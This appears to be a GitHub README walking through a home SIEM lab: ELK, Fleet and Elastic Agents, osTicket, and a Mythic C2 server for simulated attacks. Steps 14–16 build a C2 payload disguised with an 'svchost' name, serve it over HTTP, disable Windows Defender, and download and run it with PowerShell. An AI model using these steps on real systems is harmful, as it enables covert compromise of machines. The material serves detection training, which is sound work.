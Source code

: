 # 30-Day-On-Prem

## Objective

Implement a comprehensive Security Information and Event Management (SIEM) system on-premises. The project will focus on, deploying and configuring an ELK stack (Elasticsearch, Logstash, Kibana) to collect, process, and visualize security-relevant data, setting up a Fleet Server to manage and monitor Elastic Agents deployed on various systems and keep it all centralized, provisioning Windows and Linux server environments for testing and demonstration purposes, integrating a Mythic C2 server to simulate cyberattacks and assess the SIEM's detection capabilities, ans deploying an OSTicket server for incident management and ticketing. The overall goal is to establish a robust SIEM solution capable of detecting, analyzing, and responding to security threats within the organization.

### Skills Learned

ELK Stack: Elasticsearch, Logstash, and Kibana for data ingestion, processing, and visualization.
Security Information and Event Management (SIEM): Understanding of SIEM concepts, best practices, and use cases.
Network and System Administration: Knowledge of system configurations and troubleshooting techniques.
Security Tools and Technologies: Familiarity with tools like Kali, osTicket, and other security assessment tools.
Problem-solving: Ability to identify and troubleshoot issues related to SIEM deployments and data analysis.
Analytical Thinking: Skill in analyzing large datasets to identify security threats and patterns.
Attention to Detail: Meticulous approach to ensure accurate data collection and analysis.
Continuous Learning: A mindset of staying updated with the latest security threats and technologies.

### Tools Used

Elasticsearch: For storing and analyzing large volumes of data.
Logstash: Collects, processes, and transforms data from various sources.
Kibana: A powerful visualization tool for exploring and analyzing data stored in Elasticsearch.
Beats: Lightweight data shippers (e.g., Filebeat, Auditbeat, Metricbeat) to collect data from various sources.
Threat Intelligence Platforms: Tools to gather and analyze threat intelligence data.
Configuration Management Tools: To automate the deployment and configuration of the SIEM components.


## Steps

1. In Virtual box get your 6 machines ready. 4 ubuntu Libux m 2 Windows servers.<br>
![VMs](https://github.com/user-attachments/assets/a24c743d-907d-4d7e-b02f-e08b3b694833)<br>
*Ref 1: VMs*<br>
2. Set up your NAT network, enter your prefered IPv4 prefic and group your VMs into your newly created NAT network.<br>
![NAT Network](https://github.com/user-attachments/assets/735129b7-a24b-4b65-b076-2e3d48932b45)<br>
*Ref 2: NAT Network*<br>
3. Spin up your machines and update them.
4. Configure SSH port forwarding in your VM software, create one for each VM.<br>
![port-forwarding](https://github.com/user-attachments/assets/ee3278a5-30eb-4ba2-9df2-6be36221ef7f)<br>
*Ref 3: Port Forwarding*<br>
5. Install Elastic and Kibana on your ELK server and Sysmon on your Windows Server. Sudo nano /etc/elasticsearch/elasticsearh.yml > uncomment "network.host" and change it to the VMs ip and uncomment port. Start up elastic.<br>
![start elasticsearch](https://github.com/user-attachments/assets/7c4277af-cca8-466c-a77e-76c862fe3956)<br>
*Ref 4: Start elastic*<br>
6. Install Kibana, update config file > uncomment "server.port" and "server.host" and change it to ip address, same with "server.publicBaseUrl" with <ip address>:5601.<br>
![kibana config](https://github.com/user-attachments/assets/fc12b7e2-62a3-41fa-93bb-f59a48597e37)<br>
*Ref 5: Kibana config*<br>
7. Create encryption keys > cd /usr/share/kibana/bin > sudo ./kibana-encryption-keys generate. Next sudo ./kibana-keystore add <encryption key filename> > encryption key. Start up Kibana.<br>
![kibana generate encrypt keys](https://github.com/user-attachments/assets/0c2e2889-fd62-4d47-bf0a-9859d13167db)<br>
*Ref 6: Generate enctyption keys*<br>
![kibana encryption keys](https://github.com/user-attachments/assets/c8bc5e16-0f93-482e-b8b4-9a5245ef4fba)<br>
*Ref 7: Encryption keys*<br>
![start kibana](https://github.com/user-attachments/assets/81dff932-ce13-4ef2-847c-dc21945a767d)<br>
*Ref 8: Start Kibana*
8. Create a port forward rule on virtualbox(or VMware) to ELK. Create enrollment token > cd/usr/share/elasticsearch/bin. For verification code: cd /usr/share/kibana/bin > sudo ./kibana-verification-code. To login use elastic as username and password from security auto-configuration information("elastic built-in superuser passwrod").<br>
![ELK port forward](https://github.com/user-attachments/assets/5894648f-87b3-4a15-8078-48770b7941ca)<br>
*Ref 9: ELK port forward*<br>
![kibana enrollment key](https://github.com/user-attachments/assets/c175773b-674c-4425-8287-c14e76ed298c)<br>
*Ref 10: Enrollment key*<br>
![kibana verification code](https://github.com/user-attachments/assets/57e5270d-d35d-4cb2-831d-b7988c725d4e)<br>
*Ref 11: Verification code*<br>
9. Setup Fleet Server, Hamburger icon > fleet > add fleet server. Specify name, URL is the ip address of the fleet VM > generate server policy > fleet settings to change port from 443 to 8220 in Edit Fleet Server. Click agents > add fleet server > continue; copy Linux Tar and paste into fleet VM. Continue enrolling elastic agent > enter a policy name > create policy > click Windows tab and copy agent install text > on Windows server VM paste into an admin PowerShell instance. use "--insecure" flag.<br>
![elastic screen](https://github.com/user-attachments/assets/dce33c5a-0715-41f5-bd91-44490badbd7e)<br>
*Ref 12: elastic screen*<br>
![PS insecure agent](https://github.com/user-attachments/assets/233783f1-cc9b-497e-978d-979c0712b4cc)<br>
*Ref 13: insecure flag*<br>
![windows add agent](https://github.com/user-attachments/assets/42dd1a73-a36b-45c9-a653-184ef7baf22f)<br>
*Ref 14: Windows add agent*<br>
![Add Agent success](https://github.com/user-attachments/assets/f65fdb07-289a-42c2-a5be-026e9716dd3c)<br>
*Ref 15: Add Windows agent success*<br>
10. Add and Agent for Linux(Ubuntu) Server > create new agent policy > name it > enroll in fleet > create policy > copy Linux Tar and paste into Linux Server.<br>
![elastic screen](https://github.com/user-attachments/assets/9d84d1dd-1e1d-4594-be5d-4d0fa940a537)<br>
*Ref 16: Elastic screen*<br>
![Fleet](https://github.com/user-attachments/assets/fdbd22f3-b0a0-4bbf-b236-4957421d3883)<br>
*Ref 17: Fleet*<br>
11. Click the Haburger Icon > Integrations > Search "custom windows event logs" > add custom winds event logs > name it, for channel name go to windows server and open event viewer to find sysmon then operational: right-click, properties, "full name" is the channel name > exisiting host under "where to add", ...; win-policy > save and continue.<br>
![Custom windows event logs](https://github.com/user-attachments/assets/03598f24-eb91-4029-8187-3dbb992208cf)<br>
*Ref 18: Custom Windows event logs*<br>
12. On your Windows Server, Event viewer find Windows Defender > operational, properties, copy "full name" and add another custom Windows event logs like above. Enable RDP on Windows Server under remote desktop settings<br>
13. Install docker-compose and make on your mythic vm. Install <a href="https://docs.mythic-c2.net/installation">Mythic</a> then run sudo make. > sudo ./mythic-cli start > cat env, and create another port forwarding rule for Mythic, then install a Mythic agent and C2 profile.<br>
14. Make a Mythic payload by going to payloads > Actions > Generate new payload > Windows > Apollo > include all commands > include http: callback remove the s from hhtps and change it to the mythic vms ip address > create pay load > go to payloads and right click download and copy link address.
![Mythic payload](https://github.com/user-attachments/assets/e6297be7-be64-4034-87a7-abbeebc9950b)<br>
*Ref 19: Mythic payload*<br>
![Mythic agent and profile](https://github.com/user-attachments/assets/371b2f2e-a574-4d49-ab0b-9671ef0b3eda)<br>
*Ref 20: Mythic agent and profile*<br>
![Mythic active callback](https://github.com/user-attachments/assets/114ebab0-2ff4-48ed-b5c6-09cbe672254b)<br>
*Ref 21: Mythic active callback*<br>
15. In the Mythic VM cd into home directory > wget <link address>; change 8443 to 744. and ip to the mythic vm ip nad --no-check-certificate > mv <file> svchost-<make a filename>.exe < python3 -m http.server 9999
16. Disable Windows Defender on the Windows Server and add an exclusion for the Downloads Folder. In PowerShell invoke-webrequest -uri http://<mythic vm ip address>:9999/svchost-<filename>.exe -Outfile "(:\Users\Administrator\Downloads\svchost-<filename>.exe" > run the file thats in downloads.
17. Spin up your osTicket VM. Download <a href="https://www.apachefriends.org/download.html">xampp</a> by apache and <a href="https://osticket.com/">osTicket</a>. Click on xampp to install it. Extract all of the osTicket download after you extract the osticket zip in that folder.
![osTicket download](https://github.com/user-attachments/assets/2f9da10e-cc8d-4779-8662-51d54f098e22)<br>
*Ref 22: osTicket download*<br>
18. Navigate to xampp folder, find properties and edit it to change the Domain name to the VMs ip address, do the same to mysqlhost.
19. Open xampp control panel and start apache and mysql, click admin nnext to apache > phpMyAdmin > New, to create a new database > name it > create > home > user accounts > click "root" mext to "localhost" > change password > enter password, click go > login information, under host select "use text field", enter the osTicket VM ip address, enter a password > Go.
20. Navigate to phpMyAdmin folder > make a back of config.inc.php file, open original in notepad > change password of user-root to the one you just created, and add the ip address of the osTicket VM (make sure login hos is your VM ip). Go back to user accounts > root account > databases > select your database under "Add privileges..." > Go > check all > Go.
 ![config inc](https://github.com/user-attachments/assets/c1a85f1b-c435-46a9-99d0-d7142755f0f5)<br>
*Ref 23: config.inc*<br>
21. Navigate to osTicket folder you extracted > copy the "scripts" and "upload" folders and paste into a new folder you create called "osticket" in the htdocs folder under the xampp folder. Access the server/installer in a browser with <VM ip>/osticket/upload" > continue > go back to the upload folder in htdocs > include > rename ost-sampleconfig.php to ost-config.php > back to broswerm click continue > fill out the form; use the mysql database you created > 
